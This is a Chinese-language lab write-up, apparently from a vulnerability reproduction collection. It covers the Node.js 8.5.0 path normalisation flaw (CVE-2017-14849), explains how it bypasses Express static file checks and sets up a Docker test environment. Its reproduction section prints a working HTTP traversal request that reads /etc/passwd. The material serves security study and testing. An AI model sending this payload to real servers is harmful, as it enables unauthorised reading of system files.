

# Node.js 8.5.0 目录穿越漏洞（CVE-2017-14849）

Node.js 是一个跨平台的开源 JavaScript 运行环境。Node.js 8.5.0 ~ 8.6.0 版本中，由于对“..”处理方式的更改与社区模块使用的路径名验证不兼容，远程攻击者可以访问到非预期以外的文件。

这个漏洞的原因是 Node.js 8.5.0 对目录进行`normalize`操作时出现了逻辑错误，导致向上层跳跃的时候（如`../../../../../../etc/passwd`），在中间位置增加`foo/../`（如`../../../foo/../../../../etc/passwd`），即可使`normalize`返回`/etc/passwd`，但实际上正确结果应该是`../../../../../../etc/passwd`。

Express这类web框架，通常会提供了静态文件服务器的功能，这些功能依赖于`normalize`函数。比如，Express在判断path是否超出静态目录范围时，就用到了`normalize`函数，上述BUG导致`normalize`函数返回错误结果导致绕过了检查，造成任意文件读取漏洞。

当然，`normalize`的BUG可以影响的绝非仅有Express，更有待深入挖掘。不过因为这个BUG是node 8.5.0 中引入的，在 8.6 中就进行了修复，所以影响范围有限。

参考文档：

 - https://nodejs.org/en/blog/vulnerability/september-2017-path-validation/
 - https://security.tencent.com/index.php/blog/msg/121

## 漏洞环境

执行如下命令编译及运行一个基于Node.js 8.5.0和Express 4.15.5的漏洞环境：

```
docker compose build
docker compose up -d
```

访问`http://your-ip:3000/`即可查看到一个web页面，其中引用到了文件`/static/main.js`，说明其存在静态文件服务器。

## 漏洞复现

发送如下数据包，即可读取passwd文件：

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```


